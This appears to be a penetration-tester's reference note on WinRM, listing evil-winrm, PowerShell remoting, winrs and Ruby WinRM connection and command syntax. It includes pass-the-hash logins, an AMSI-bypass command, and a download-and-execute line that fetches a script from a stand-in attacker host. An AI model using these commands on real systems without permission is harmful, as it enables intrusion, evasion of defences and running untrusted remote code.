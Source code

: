 ```yaml
---
id: Usage
aliases: []
tags:
  - Networking/Services/WinRM/Usage
---
```


# Usage

<!-- Connect {{{-->
## Connect

<!-- Evil-WinRM {{{-->
### Evil-WinRM

Basic connection

```sh
evil-winrm -i <target> -u administrator -p '<password>'
```

With domain

```sh
evil-winrm -i <target> -u 'DOMAIN\<user>' -p '<password>'
```

Using hash (*Pass-the-Hash*)

```sh
evil-winrm -i <target> -u administrator -H 'NTHASH'
```

Using SSL (*port 5986*)

```sh
evil-winrm -i <target> -u administrator -p '<password>' -S
```

With custom port

```sh
evil-winrm -i <target> -u administrator -p '<password>' -P 5985
```

<!-- }}} -->

<!-- PowerShell {{{-->
### PowerShell

Create credentials

```sh
$password = ConvertTo-SecureString "<password>" -AsPlainText -Force
```

```sh
$cred = New-Object System.Management.Automation.PSCredential("administrator", $password)
```

Connect interactively

```sh
Enter-PSSession -ComputerName <target> -Credential $cred
```

Run command remotely

```sh
Invoke-Command -ComputerName <target> -Credential $cred -ScriptBlock { whoami }
```

Connect to multiple machines

```sh
$computers = "server1", "server2", "server3"
```

```sh
Invoke-Command -ComputerName $computers -Credential $cred -ScriptBlock { hostname }
```

<!-- }}} -->

<!-- WinRS {{{-->
### WinRS

Execute single command

```sh
winrs -r:http://<target>:5985 -u:administrator -p:<password> "whoami"
```

Interactive shell

```sh
winrs -r:http://<target>:5985 -u:administrator -p:<password> cmd
```

With domain

```sh
winrs -r:http://<target>:5985 -u:DOMAIN\<username> -p:<password> cmd
```

<!-- }}} -->

<!-- Ruby WinRM {{{-->
### Ruby WinRM

Connect using Ruby [WinRM](https://github.com/WinRb/WinRM) library

> [!example]-
>
> ```sh
> require 'winrm'
>
> conn = WinRM::Connection.new(
>   endpoint: 'http://target.com:5985/wsman',
>   user: 'administrator',
>   password: 'password'
> )
>
> conn.shell(:powershell) do |shell|
>   output = shell.run('Get-Process') do |stdout, stderr|
>     STDOUT.print stdout
>     STDERR.print stderr
>   end
> end
> ```

<!-- }}} -->

___

<!-- }}} -->

<!-- Commands {{{-->
## Commands

Execute commands remotely through WinRM

Basic command execution

> [!example]-
>
> ```sh
> Invoke-Command -ComputerName <target> -ScriptBlock { whoami }
> ```

Multiple commands

> [!example]-
>
> ```sh
> Invoke-Command -ComputerName <target> -ScriptBlock {
>   whoami
>   hostname
>   ipconfig
> }
> ```

Execute local script on remote

> [!example]-
>
> ```sh
> Invoke-Command -ComputerName <target> -FilePath .\script.ps1
> ```

Download and execute

> [!example]-
>
> ```sh
> Invoke-Command -ComputerName <target> -ScriptBlock {
>   IEX(New-Object Net.WebClient).DownloadString('http://<attacker.com>/script.ps1')
> }
> ```

<!-- evil-winrm {{{-->
### evil-winrm

[evil-winrm](https://github.com/Hackplayers/evil-winrm) commands

> [!example]-
>
> | Command | Description | Usage |
> | --- | --- | --- |
> | `upload` | Upload file to target | upload /local/file.exe C:\Windows\Temp\file.exe |
> | `download` | Download file from target | download C:\file.txt /tmp/file.txt |
> | `services` | List services | services |
> | `menu` | Show available commands | menu |
> | `Bypass-4MSI` | Bypass AMSI | Bypass-4MSI |
> | `Invoke-Binary` | Execute binary from memory | Invoke-Binary /path/to/binary.exe |

<!-- }}} -->

<!-- PowerShell {{{-->
### PowerShell

PowerShell remoting cmdlets

> [!example]-
>
> | Cmdlet | Description | Example |
> | --- | --- | --- |
> | `Enter-PSSession` | Interactive remote session | `Enter-PSSession -ComputerName target` |
> | `Exit-PSSession` | Exit remote session | `Exit-PSSession` |
> | `Invoke-Command` | Run command remotely | `Invoke-Command -ComputerName target -ScriptBlock <cmd>` |
> | `New-PSSession` | Create persistent session | `$s = New-PSSession -ComputerName target` |
> | `Remove-PSSession` | Close session | `Remove-PSSession -Session $s` |
> | `Get-PSSession` | List active sessions | `Get-PSSession` |

<!-- }}} -->

___

<!-- }}} -->
